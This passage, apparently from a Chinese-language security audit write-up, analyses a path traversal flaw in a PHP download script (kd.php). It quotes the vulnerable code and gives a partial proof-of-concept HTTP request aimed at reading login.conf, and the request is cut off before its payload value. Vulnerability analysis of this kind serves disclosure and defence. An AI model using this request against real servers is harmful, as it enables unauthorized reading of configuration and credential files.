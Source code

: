 ```php
```

判断kli.php的`checkLogin`传入`$_COOKIE['kusession']`（可控）是否return 0，跟进入该方法：

```php
function checkLogin($session){
      session_start();
      return $_SESSION[$session] ? '1' : '0';//判断是否存在对应的$_SESSION[key]，不存在return 0 
    }
```

可以看出这里要求必须登录才能让session_start获取得到服务器回传的Cookie。

再回到kd.php，文件名没有修改直接拼接的是fn参数，文件路径是从根目录开始`$file_sub_path=$_SERVER['DOCUMENT_ROOT']; `，文件存在的话即可下载文件。这里没有限制目录穿越，因此可以通过`../`读取其他目录的任意文件。

```PHP
	$file_name=$_POST['fn'];
   //echo $file_name;
   $file_name=iconv("utf-8","gb2312",$file_name);
   $file_sub_path=$_SERVER['DOCUMENT_ROOT']; 
   $file_path=$file_sub_path.'/'.$file_name;
   //echo $file_path;
   if(!file_exists($file_path)){
     //echo 'no file found';
     exit();
   }

   $fp=fopen($file_path,"r");
   $file_size=filesize($file_path);
   //$fn = preg_replace("([a-z|A-Z|0-9]{1-30}\.[a-z|A-Z|0-9]{1-10})","\\1",$file_name);
   $fn = basename($file_path);
   Header("Content-type: application/octet-stream");
   Header("Accept-Ranges: bytes");
   Header("Accept-Length:".$file_size);
   Header("Content-Disposition: attachment; filename=".$fn);
   $buffer=5024;
   $file_count=0;

   while(!feof($fp) && $file_count<$file_size){
     $file_con=fread($fp,$buffer);
     $file_count+=$buffer;
     echo $file_con;
   }
   fclose($fp);
?>
```

这里读取web根目录下login.conf文件试，成功的话会回显文件内容。

```http
POST /kd.php HTTP/1.1
Host: x.x.x.x
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: SKYLARa0aede9e785feabae789c6e03d=kl3kvpfr63vuc9a32c0ib8gpq5;kusession=time
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryaDoXxAt1M40lPRKt
Content-Length: 146

------WebKitFormBoundaryaDoXxAt1M40lPRKt
Content-Disposition: form-data; name="fn"
```